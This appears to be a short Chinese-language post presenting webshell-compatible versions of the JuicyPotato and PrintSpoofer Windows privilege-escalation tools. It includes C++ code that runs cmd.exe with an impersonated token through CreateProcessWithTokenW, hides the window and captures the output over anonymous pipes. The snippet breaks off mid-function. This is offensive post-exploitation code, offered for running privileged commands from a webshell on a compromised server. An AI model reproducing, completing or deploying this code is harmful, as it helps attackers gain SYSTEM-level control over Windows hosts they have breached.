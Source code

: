 我实现了JuicyPotato和PrintSpoofer的WebShell版（T00ls上有JuicyPotato的WebShell版，但我没账号）

原理是设置子进程hide window，并通过父子进程间的匿名管道来获取子进程输出

```c++
BOOL CreateProcessWithOutput(HANDLE hToken) {
	BOOL result;
	PROCESS_INFORMATION pi;
	STARTUPINFO si;
	SECURITY_ATTRIBUTES sa = { 0 };

	sa.bInheritHandle = TRUE;
	sa.nLength = sizeof(sa);
	sa.lpSecurityDescriptor = NULL;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	HANDLE hReadPipe = NULL;
	HANDLE hWritePipe = NULL;

	result = CreatePipe(&hReadPipe, &hWritePipe, &sa, 0);
	if (!result) {
		printf("\n[-] CreatePipe error: %d\n", GetLastError());
		return result;
	}

	si.cb = sizeof(si);
	si.hStdError = hWritePipe;
	si.hStdOutput = hWritePipe;
	si.wShowWindow = SW_HIDE;
	si.dwFlags = STARTF_USESHOWWINDOW | STARTF_USESTDHANDLES;
	si.lpDesktop = (LPWSTR)L"winsta0\\default";

	fflush(stdout);
	wchar_t command[256];
	wcscpy_s(command, L"cmd.exe /c ");
	wcsncat_s(command, g_pwszCommandLine, wcslen(g_pwszCommandLine));

	LPWSTR pwszCurrentDirectory = (LPWSTR)malloc(sizeof(WCHAR) * 512);
	GetCurrentDirectoryW(512, pwszCurrentDirectory);
	if (!CreateProcessWithTokenW(hToken, LOGON_WITH_PROFILE, NULL, command, 0, NULL, pwszCurrentDirectory, &si, &pi)) {
		wprintf(L"CreateProcessWithTokenW() failed. Error: %d\n", GetLastError());
		goto CLEANUP;
	} else {
		wprintf(L"[+] CreateProcessWithTokenW() OK\n");
		goto RECV_OUTPUT;
	}

CLEANUP:
	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);
	CloseHandle(hReadPipe);
	free(pwszCurrentDirectory);
	return result;

RECV_OUTPUT:
	const int dwResultBufferSize = 1024;
	// const DWORD timeout = 1000 * 10;
	char pszResultBuffer[dwResultBufferSize];

	// WaitForSingleObject(pi.hProcess, timeout);
	CloseHandle(hWritePipe);

```